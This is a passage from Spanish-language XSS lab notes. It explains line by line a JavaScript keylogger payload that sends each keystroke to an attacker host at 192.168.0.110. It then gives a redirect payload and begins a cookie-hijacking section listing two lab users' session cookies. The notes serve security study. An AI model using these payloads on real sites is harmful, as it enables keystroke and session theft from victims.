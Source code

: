 
Explicación:

1. **`var k = "";`**: Declara una variable **`k`** e inicializa su valor como una cadena vacía. Esta variable se utilizará para almacenar las teclas presionadas por el usuario.
2. **`document.onkeypress = function(e){`**: Establece un controlador de eventos para el evento **`onkeypress`** del documento. Esto significa que cada vez que se presione una tecla en el documento, se ejecutará la función anónima definida a continuación.
3. **`e = e || window.event;`**: Asigna el objeto del evento a la variable **`e`**. Esto se hace para garantizar la compatibilidad con diferentes navegadores, ya que algunos navegadores pueden usar **`window.event`** en lugar de pasar el evento como un parámetro.
4. **`k += e.key`**: Agrega la tecla presionada a la variable **`k`**. La propiedad **`e.key`** contiene el valor de la tecla presionada.
5. **`var i = new Image();`**: Crea un nuevo objeto de imagen en JavaScript. Se utiliza para cargar una imagen desde una URL.
6. **`i.src = "http://192.168.0.110/" + k;`**: Establece la propiedad **`src`** de la imagen **`i`** para cargar una imagen desde la URL especificada. En este caso, la URL es "**http://192.168.0.110/**" concatenada con el contenido de la variable **`k`**, que contiene la cadena de teclas presionadas por el usuario.

![Captura del usuario víctima escribiendo cualquier cosa](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%205.png)

Captura del usuario víctima escribiendo cualquier cosa

![Captura del atacante capturando todas pulsaciones que hace el usuario](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%206.png)

Captura del atacante capturando todas pulsaciones que hace el usuario

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%207.png)

### JavaScript: Redirecciones

Se hará un redireccionamiento al usuario hacia una URL especificada

```bash
<script>
window.location.href = "<URL_to_redirect>";
</script>
```

### JavaScript: Cookie Hijacking [1/2]

Se robará la cookie de sesión del usuario víctima

Con “ctrl + c” se puede ver la cookie de sesión actual del usuario:

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%208.png)

cookie:

```bash
# Cookie del usuario Bryan
eyJfY3NyZl90b2tlbiI6ImEzOTM3MjdiLTAzODYtNDBlNS1hZDc5LTEwN2ZhM2YxYTJjNCIsInVzZXJuYW1lIjoiYnJ5YW4ifQ.ZJCZOQ.UUsXi6L-BjqgxL0BZ8tkrEPPZxI

# Cookie del usuario Kim
eyJfY3NyZl90b2tlbiI6ImQ0MmM4NmFmLTg1OGQtNDA2Ny1iNGIyLWMzOTY2OTZlMmRjZiIsInVzZXJuYW1lIjoiS2ltIn0.ZJB-Mg.u9z9UjtLLT1ol_YT7rgnnPG42tM
```
